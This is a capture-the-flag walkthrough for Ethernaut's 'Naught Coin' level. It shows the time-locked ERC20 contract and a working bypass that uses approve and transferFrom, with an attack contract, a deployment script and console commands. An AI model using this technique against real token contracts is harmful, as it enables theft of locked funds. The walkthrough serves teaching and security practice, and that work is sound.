 # Level 15 - Naught Coin ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/15" %}

### Level Setup

{% hint style="info" %}
NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

&#x20; Things that might help

* The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
* The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/NaughtCoin.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```
{% endcode %}

### Exploit

While the tokens can't be transferred directly by the owner, the owner can allow a different address to transfer the tokens for them.

1. Deploy the Exploit contract.
2. In the browser console, approve the newly deployed exploit contract address.

```javascript
myBalance = await contract.balanceOf("0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266")
await contract.approve("0x76d05F58D14c0838EC630C8140eDC5aB7CD159Dc", myBalance)
```

3. Invoke the attack to transfer the tokens.

```bash
cast send <DEPLOYED_EXPLOIT_CONTRACT_ADDRESS> "attack()" \
--rpc-url ${ANVIL_RPC_URL} --private-key ${ANVIL_PRIVATE_KEY}
```

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-15

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-15

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/b927b7aed65df997f7e204690bb4033773b72d04/src/Level15.sol" %}

{% code title="src/Level15.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";

// ================================================================
// │                     LEVEL 15 - NAUGHT COIN                   │
// ================================================================
interface ERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function allowance(address owner, address spender) external view returns (uint256);
}

contract AttackContract {
    address targetContractAddress;

    constructor(address _targetContractAddress) {
        targetContractAddress = _targetContractAddress;
    }

    function attack() public {
        uint256 allowance = ERC20(targetContractAddress).allowance(msg.sender, address(this));

        // Transfer all tokens to this contract address
        ERC20(targetContractAddress).transferFrom(msg.sender, address(this), allowance);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/b927b7aed65df997f7e204690bb4033773b72d04/script/Level15.s.sol" %}

{% code title="script/Level15.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackContract} from "../src/Level15.sol";

// ================================================================
// │                     LEVEL 15 - NAUGHT COIN                   │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        new AttackContract(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that transfer is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.
{% endhint %}
